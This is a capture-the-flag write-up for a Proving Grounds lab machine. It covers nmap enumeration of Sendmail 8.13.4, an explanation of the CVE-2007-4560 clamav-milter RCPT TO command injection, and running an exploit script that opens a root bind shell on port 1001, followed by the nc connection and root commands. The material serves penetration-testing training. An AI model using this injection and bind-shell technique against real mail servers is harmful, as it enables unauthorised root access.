

# ClamAV - Proving Grounds Practice

> **Kill Chain Summary**: Nmap scan reveals Sendmail 8.13.4 on Port 25 -> Identifying vulnerable ClamAV milter integration -> Exploiting CVE-2007-4560 via unauthenticated RCPT TO injection -> Spawning bind shell on Port 1001 -> Instant Root Shell.

| Property | Value |
|---|---|
| **Target Name** | ClamAV |
| **Platform** | Proving Grounds Practice |
| **OS** | Linux (Debian 3.1 Sarge) |
| **Difficulty** | Medium |
| **Status** | Rooted |
| **Key Techniques** | Sendmail Service Enumeration, ClamAV Milter Command Injection (CVE-2007-4560), Bind Shell Exploitation |

---

## 1. Reconnaissance and Enumeration

### 1.1 Port Scanning (Nmap)

We initiate reconnaissance with a full TCP port scan:

```bash
sudo nmap -p- --min-rate 1000 -T4 -Pn $IP -oA nmap/allports
```

**Open Ports Summary:**
```text
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
60000/tcp open  unknown
```

---

### 1.2 SMTP Service Fingerprinting (Port 25)

We probe the SMTP service using Nmap scripts:

```bash
nmap -p 25 --script smtp-commands $IP
```

**Output:**
```text
PORT   STATE SERVICE
25/tcp open  smtp
| smtp-commands: localhost.localdomain Hello [192.168.45.225], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: ...
```

The service is identified as **Sendmail 8.13.4** running on an older Debian release.

---

## 2. Initial Access

### 2.1 Vulnerability Analysis: ClamAV Milter RCE (CVE-2007-4560)

Sendmail instances configured to filter attachments using early versions of the ClamAV milter plugin (`clamav-milter`) are vulnerable to arbitrary command injection tracked under **CVE-2007-4560**.



**Vulnerability Mechanics:**
When receiving incoming mail, `clamav-milter` fails to sanitize email addresses supplied in the `RCPT TO` header before executing shell calls to log or process warnings. By appending unescaped shell commands inside backticks or pipe operators, arbitrary commands execute with the privileges of the milter process (which runs as **root**).

---

### 2.2 Exploitation via Bind Shell

We utilize an exploit script (`sendmail_clamav_exploit.py`) targeting the vulnerable `clamav-milter` daemon:

```bash
python3 sendmail_clamav_exploit.py $IP
```

**Execution Output:**
```text
[*] Targeting: 192.168.x.x
[*] Connecting to port 25...
[+] Connected: 220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; (No UCE/UBE)
[*] Injecting payloads...
[+] Exploit delivered!

Connect with: nc 192.168.x.x 1001
Then run: bash -i
```

The exploit commands the target to open a listener / bind shell on port 1001.

---

### 2.3 Connecting to the Root Shell

We connect directly to port 1001 on the target machine:

```bash
nc $IP 1001
```

Confirming root execution:
```bash
whoami
root

id
uid=0(root) gid=0(root) groups=0(root)
```

Checking root flag:
```bash
cat /root/proof.*
[FLAG REDACTED]
```

---

## 3. Privilege Escalation

*Not applicable. Exploitation directly executed commands with root or NT AUTHORITY SYSTEM privileges without requiring a separate privilege escalation step.*

## 4. Useful Commands Summary

```bash
# Fingerprint SMTP server commands
nmap -p 25 --script smtp-commands [TARGET_IP]

# Connect to spawned bind shell
nc [TARGET_IP] 1001
```

---

## 5. Key Takeaways and Lessons Learned

1. **Legacy Service Risks:** Mail Transfer Agents (MTAs) and associated antivirus filter plugins running on older Linux installations often execute with full system root privileges to manipulate mail spools and process filters.
2. **Mail Pipeline Injection:** Email headers (`RCPT TO`, `MAIL FROM`) can act as command injection points if mail filters pass recipient values into subshell invocations without strict input sanitization.
3. **Bind Shell Considerations:** When reverse shell connections fail due to NAT or firewall routing, configuring the target to open a bind shell on an arbitrary high port can provide an immediate interactive shell if inbound filtering is permissive.

---

### Tags
#linux #smtp #sendmail #clamav #cve-2007-4560 #rce #direct-root #bind-shell #medium #pg-practice #rooted
